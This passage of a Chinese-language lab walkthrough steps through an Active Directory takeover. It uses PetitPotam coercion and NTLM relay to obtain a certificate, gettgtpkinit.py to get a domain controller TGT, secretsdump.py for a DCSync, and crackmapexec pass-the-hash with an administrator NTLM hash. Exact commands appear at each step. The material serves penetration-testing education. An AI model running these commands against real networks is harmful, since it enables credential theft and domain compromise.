   
![1744803345_67ff9611265f430e13f76.png!small?1744803345705](https://mmbiz.qpic.cn/mmbiz_jpg/5975bXHXfWElmicQfyttQ4ULfUdkaNe9BvBPgO9ia1eadA51fKqTkib0tl4K3e1gP2ecsmA7NYZYJsHLugr6bXrLg/640?wx_fmt=jpeg&from=appmsg "")  
### 攻击步骤2  
  
在另一个窗口中，我们可以运行工具PetitPotam.py。尝试强制域控制器向运行 ntlmrelayx.py 的主机进行身份验证。  
> python3 PetitPotam.py 172.16.5.225 172.16.5.5  
  
  
![1744803565_67ff96ed53fec4ed68f55.png!small?1744803565982](https://mmbiz.qpic.cn/mmbiz_jpg/5975bXHXfWElmicQfyttQ4ULfUdkaNe9BzKsZxp0AWTOGlA2mlwYP3KNVm958gxfTonCFjQUtLJFnXFCe9meXrA/640?wx_fmt=jpeg&from=appmsg "")  
  
如果攻击成功，可以看到成功的登录请求并获取域控制器的base64编码证书。  
  
![1744803610_67ff971a6dea80932e6de.png!small](https://mmbiz.qpic.cn/mmbiz_jpg/5975bXHXfWElmicQfyttQ4ULfUdkaNe9BiaAzfKoia00JkibveCWmpIBCxH16eRria64uDicicp9IMOudzFwaAHGE3dFw/640?wx_fmt=jpeg&from=appmsg "")  
### 攻击步骤3  
  
接下来，我们可以获取此base64 证书并用使用gettgtpkinit.py来为域控制器请求票证授予票证(TGT)。  
> python3 gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01\$ -pfx-base64 <获取的编码> dc01.ccache  
  
  
![1744809426_67ffadd2c04abe5ff83d0.png!small](https://mmbiz.qpic.cn/mmbiz_jpg/5975bXHXfWElmicQfyttQ4ULfUdkaNe9BX8F1kAoiaLE4OQxtbwOicI5o9jNxgY2adEWP9V4Lo51edjpbjib8caObA/640?wx_fmt=jpeg&from=appmsg "")  
> AS-REP 加密密钥：16950e24794e18ce18211c5ebf8ea22910b3854ffb9ce4c4ab0dcc8a5c390abe  
  
  
TGT票据保存到了本地dc01.ccache 文件中。  
### 攻击步骤4  
  
针对dc01.ccache 文件，可以用它来设置 KRB5CCNAME环境变量，我们在攻击时，尝试 Kerberos 验证时会使用该文件。  
> export KRB5CCNAME=dc01.ccache  
  
  
可以使用klist查看票据  
  
![1744809546_67ffae4a854b26f33dd1b.png!small?1744809547199](https://mmbiz.qpic.cn/mmbiz_jpg/5975bXHXfWElmicQfyttQ4ULfUdkaNe9BFOeYjdhSwDic6eeHzaOfU33Q5PUFiazvFiaGYnK69neDZbpBP14oTwAhA/640?wx_fmt=jpeg&from=appmsg "")  
### 攻击步骤5  
  
然后，我们可以将此TGT与 secretsdump.py 结合使用，执行 DCSync。  
> secretsdump.py -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL  
  
  
![1744806129_67ffa0f1af8e0ef8a930d.png!small?1744806130520](https://mmbiz.qpic.cn/mmbiz_jpg/5975bXHXfWElmicQfyttQ4ULfUdkaNe9BfBTISbfqUo2qrdmmhQdLtr7SH46xPdYTCOiaZnMsickibqMXpvYmPMSrg/640?wx_fmt=jpeg&from=appmsg "")  
### 攻击步骤6  
  
使用内置管理员帐户的 NTLM哈希来向域控制器进行身份验证。后续可以拿到shell。  
> crackmapexec smb 172.16.5.5 -u administrator -H 88ad09182de639ccc6579eb0849751cf  
  
  
![1744806569_67ffa2a9aa1b49e906a90.png!small?1744806570152](https://mmbiz.qpic.cn/mmbiz_jpg/5975bXHXfWElmicQfyttQ4ULfUdkaNe9BtWqmLWw34DRTVxvKnlRWaPqaGeY8lXzKA5KY2KYWTU1xiaa8qPJr6xA/640?wx_fmt=jpeg&from=appmsg "")  
### 方法2  
  
在这里获取目标的 TGT之后，可以采取另一种方法来请求目标主机或用户的NTLM哈希。  
### 步骤2.1  
  
